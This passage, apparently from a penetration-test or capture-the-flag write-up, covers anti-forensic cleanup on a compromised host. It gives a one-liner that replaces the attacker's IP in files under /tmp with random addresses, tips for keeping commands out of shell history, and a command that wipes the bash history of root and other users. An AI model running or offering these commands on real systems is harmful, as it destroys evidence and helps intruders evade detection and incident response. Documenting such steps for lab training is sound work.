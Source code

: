 ##### As one ugly command

This is something you could copy/paste, and just change your IP address.

Basically, just set your `srcip` to your workstations' IP first, and MAKE SURE to run this with a space prefixed, so this command doesn't get written to the shell's history files (e.g. `~/.bash_history`, `~/.zsh_history`, etc.)

```bash
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
```

or optionally, start a new shell, turn off command history, AND start the command with a space prefixed (which also should not add the command to the shell history), then exit out of that separate process:

```bash
bash
unset HISTFILE
 srcip="10.10.10.10" ; find /tmp -name "*" -exec sed -i "s/$srcip/`awk -v min=1 -v max=255 'BEGIN{srand(); for(i=1;i<=4;i++){ printf int(min+rand()*(max-min+1)); if(i<4){printf "."}}}'`/g" {} \; 2>/dev/null
exit
```

The key idea here is that hiding your address from the logs would be pointless if the *command* for hiding your address from the logs were in a log some place!

### Wipe shell history

For any accounts that we used, if we don't mind that this will destroy valid entries of the user too (and give them an indication their account was compromised), run a comand like this with `tee` writing out nothing/null to multiple files at once:

```bash
cat /dev/null | tee /root/.bash_history /home/kathy/.bash_history /home/sam/.bash_history
```

## Summary

Completed: [2023-10-01 01:36:36]